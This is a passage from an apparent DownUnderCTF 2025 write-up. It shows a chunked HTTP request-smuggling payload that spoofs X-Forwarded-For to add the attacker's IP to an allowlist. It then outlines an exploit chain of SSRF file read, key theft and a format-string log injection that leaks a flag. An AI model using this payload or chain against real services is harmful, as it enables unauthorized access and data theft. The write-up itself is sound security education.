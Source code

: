 ```http
HTTP/1.1 403 
Content-Length: 127
Content-Type: text/plain

Access denied: You are not allowed:to access this service. Only 127.0.0.1 are allowed access.. 
The IP recieved was: 172.18.0.1
```

In my case, the IP address is `172.18.0.1`.

Then, we can add our own "backdoor" via the following smuggling request:

```http
GET /ping HTTP/1.1
Host: dev.rpc-service.ductf
Transfer-Encoding: chunked

5
AAAAAXX2
9b
0

GET /update_allowlist=172.18.0.1 HTTP/1.1
Host: dev.rpc-service.ductf
X-Forwarded-For: 127.0.0.1
Auth-Key: fake_token
Transfer-Encoding: chunked

0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2025/images/Pasted%20image%2020250723150059.png)

Finally, we can verify the list indeed updated by sending a GET request to the RPC service again:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2025/images/Pasted%20image%2020250723150132.png)

Now it didn't respond to us with the "Access denied" message and successfully bypassed the `authorized_ips` check!

## Exploitation

Armed with the above information, we can get the flag via:
1. Register and login a new account in service "Domain Scanner"
    1. Read the authentication key via SSRF to arbitrary file read
2. In service "RPC Service", get our request IP address by sending a GET request to the service
    1. Update the allow list with our request IP address by smuggling a GET request to `/update_allowlist` using SPILL.TERM technique
    2. Pollute/inject the `debug.log` file with our own format string vulnerability payload in endpoint `/stats`, which leaks the global variable `FLAG`
    3. Get the log via endpoint `/stats`
